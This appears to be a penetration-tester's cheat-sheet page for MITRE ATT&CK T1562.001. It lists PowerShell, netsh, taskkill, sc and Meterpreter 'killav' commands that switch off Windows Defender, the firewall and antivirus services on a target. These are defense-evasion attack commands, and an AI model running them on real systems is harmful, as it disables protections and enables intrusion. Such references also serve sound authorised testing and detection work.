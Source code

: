 ```yaml
---
description: MITRE ATT&CK, Defense Evasion, Sub-technique T1562.001
---
```


# Disable or Modify Tools

## Disable real-time monitoring for Windows Defender

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Disable Windows Firewall

```powershell
netsh advfirewall set allprofiles state off
```

## Manually Disable Antivirus

```powershell
Taskkill /F /IM avprocess.exe
```

## Stop an Antivirus Service

```powershell
net stop “service name”
```

## Disable a Windows Service

```powershell
sc config "service name" start= disabled
```

## Meterpreter Killav

Meterpreter has a built-in script that will attempt to kill any antivirus identified on the device. I've had mixed results with this but if you're not trying to be quiet then this is sometimes an easy win:

```bash
run killav
```

## Disable AntiVirus via the GUI

I haven't seen this in quite a bit. However, non-administrative users are sometimes able to disable the antivirus running on the host via a GUI interface. If the target has one of these then you can either right click the icon in the task bar and disable it or manually open the GUI and disable it in settings.
